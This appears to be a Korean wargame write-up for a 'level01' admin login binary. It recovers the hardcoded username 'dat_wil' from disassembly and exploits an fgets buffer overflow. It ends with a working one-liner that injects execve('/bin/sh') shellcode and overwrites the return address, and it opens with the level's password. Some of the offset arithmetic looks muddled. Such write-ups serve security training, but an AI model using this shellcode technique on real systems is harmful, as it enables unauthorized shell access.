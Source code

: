 > Password: uSq2ehEGT6c9S24zbshexZQBXUGrncxn5sD5QfGL

프로그램을 실행시켜보면 아이디를 물어보는 것을 볼 수 있다.

```bash
$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: someone
verifying username....

nope, incorrect username...

```

어셈블리 코드를 보면 계정이름과 비밀번호를 각각 verify_user_name, verify_user_pass 에서 확인하게 되어있고 비밀번호와 계정이름은 하드코딩되어있다.

```
08048464 <verify_user_name>:
 8048464:	55                   	push   %ebp
 8048465:	89 e5                	mov    %esp,%ebp
 8048467:	57                   	push   %edi
 8048468:	56                   	push   %esi
 8048469:	83 ec 10             	sub    $0x10,%esp
 804846c:	c7 04 24 90 86 04 08 	movl   $0x8048690,(%esp)
 8048473:	e8 08 ff ff ff       	call   8048380 <puts@plt>
 8048478:	ba 40 a0 04 08       	mov    $0x804a040,%edx
 804847d:	b8 a8 86 04 08       	mov    $0x80486a8 <"dat_wil">,%eax
 8048482:	b9 07 00 00 00       	mov    $0x7,%ecx
 8048487:	89 d6                	mov    %edx,%esi
 8048489:	89 c7                	mov    %eax,%edi
 804848b:	f3 a6                	repz cmpsb %es:(%edi),%ds:(%esi)
 [...]
```

```
080484a3 <verify_user_pass>:
 80484a3:	55                   	push   %ebp
 80484a4:	89 e5                	mov    %esp,%ebp
 80484a6:	57                   	push   %edi
 80484a7:	56                   	push   %esi
 80484a8:	8b 45 08             	mov    0x8(%ebp),%eax
 80484ab:	89 c2                	mov    %eax,%edx
 80484ad:	b8 b0 86 04 08       	mov    $0x80486b0 <admin>,%eax
 80484b2:	b9 05 00 00 00       	mov    $0x5,%ecx
 80484b7:	89 d6                	mov    %edx,%esi
 80484b9:	89 c7                	mov    %eax,%edi
 80484bb:	f3 a6                	repz  cmpsb %es:(%edi),%ds:(%esi)
 [...]
```

리버싱하여 획득한 username, userpass를 입력해보자.

```
$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password: 
admin
nope, incorrect password...

```

이상하게도 비밀번호가 틀렸다고 나온다.

비밀번호 확인 로직을 자세히 들여다보면

```
8048580:	e8 1e ff ff ff       	call   80484a3 <verify_user_pass>
 8048585:	89 44 24 5c          	mov    %eax,0x5c(%esp)
 8048589:	83 7c 24 5c 00       	cmpl   $0x0,0x5c(%esp)
 804858e:	74 07                	je     8048597 <main+0xc7>
 8048590:	83 7c 24 5c 00       	cmpl   $0x0,0x5c(%esp)
 8048595:	74 13                	je     80485aa <main+0xda>
 8048597:	c7 04 24 1e 87 04 08 	movl   $0x804871e,(%esp)
 804859e:	e8 dd fd ff ff       	call   8048380 <puts@plt>
 80485a3:	b8 01 00 00 00       	mov    $0x1,%eax
 80485a8:	eb 05                	jmp    80485af <main+0xdf>
 80485aa:	b8 00 00 00 00       	mov    $0x0,%eax
 80485af:	8d 65 f8             	lea    -0x8(%ebp),%esp
 80485b2:	5b                   	pop    %ebx
 80485b3:	5f                   	pop    %edi
 80485b4:	5d                   	pop    %ebp
 80485b5:	c3                   	ret    
```

이상하게도 verify_user_pass함수의 결과와 상관 없이 nope, incorrect password... 문자열을 출력하도록 되어 있는것을 볼 수 있다.

다시 돌아가서 user_name / user_pass를 입력 받는 부분을 더 자세히 들여다보자.

```
 80484d8:	83 ec 60             	sub    $0x60,%esp
[...]
 8048561:	89 44 24 08          	mov    %eax,0x8(%esp)
 8048565:	c7 44 24 04 64 00 00 	movl   $0x64,0x4(%esp)
 804856c:	00 
 804856d:	8d 44 24 1c          	lea    0x1c(%esp),%eax
 8048571:	89 04 24             	mov    %eax,(%esp)
 8048574:	e8 f7 fd ff ff       	call   8048370 <fgets@plt>
```

분명 스택을 0x60만큼만 할당받았고, fgets의 시작 위치가 0x1c(%esp)이므로 fgets가 안전하게 값을 넣을 수 있는 최대 크기는 0x64 - 0x1c = 0x48이지만 0x64만큼 값을 쓰고 있다는 문제가 있다.

따라서 2번째 문자열 입력 부분에서 ebx + 0x4위치를 덮어써서 ret위치를 조작할 수 있다.

```bash
cat <(python -c 'print "dat_wil." + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 220 + "A" * 79 + "\x48\xa0\x04\x08",') - | ./level01
```

추가적으로 username은 전역 변수에 저장되고 userpass는 스택에 저장되므로 주소 계산이 편리한 username쪽에 쉘코드를 넣었다.

username체크 로직에도 문자열 맨 앞부분만 비교하기 때문에 dat_wil뒤에 원하는 문자열을 삽입할 수 있었다.